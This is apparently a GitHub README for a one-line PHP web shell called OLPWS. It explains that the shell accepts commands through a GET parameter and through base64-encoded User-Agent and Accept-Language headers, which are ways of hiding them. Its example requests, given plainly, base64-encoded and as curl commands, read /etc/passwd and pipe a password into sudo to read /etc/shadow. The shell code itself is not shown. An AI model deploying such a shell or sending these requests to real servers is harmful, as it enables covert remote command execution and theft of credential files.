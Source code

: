 # OLPWS
One Liner PHP Web Shell


## For testing
You can use the internal web server of PHP like this:

```bash
php -S localhost:[port] shell.php
```

## Features
It reads commands from:
* Using GET method: `$_GET['e']`
* Using HTTP User-Agent: define the user-agent header with a base64_encoded payload
* Using HTTP Accept-Language: define the accept-language header with a base64_encoded payload

It automaticaly detects and decode base64_encoded payloads.


## Examples
Somes examples:
* http://host:port/?e=cat%20/etc/passwd
* http://host:port/?e=Y2F0IC9ldGMvcGFzc3dk (the same but base64_encoded)
* Using cURL: `curl http://host:port -A Y2F0IC9ldGMvcGFzc3dk`
* http://host:port/?e=echo%20password%20|%20sudo%20-S%20cat%20/etc/shadow
* http://host:port/?e=ZWNobyBwYXNzd29yZCB8IHN1ZG8gLVMgY2F0IC9ldGMvc2hhZG93 (the same but base64_encoded)
* Using cURL: `curl http://host:port -A ZWNobyBwYXNzd29yZCB8IHN1ZG8gLVMgY2F0IC9ldGMvc2hhZG93`


## Credits
Ideas comes from:
* http://www.grobinson.me/single-line-php-script-to-gain-shell/
* https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/
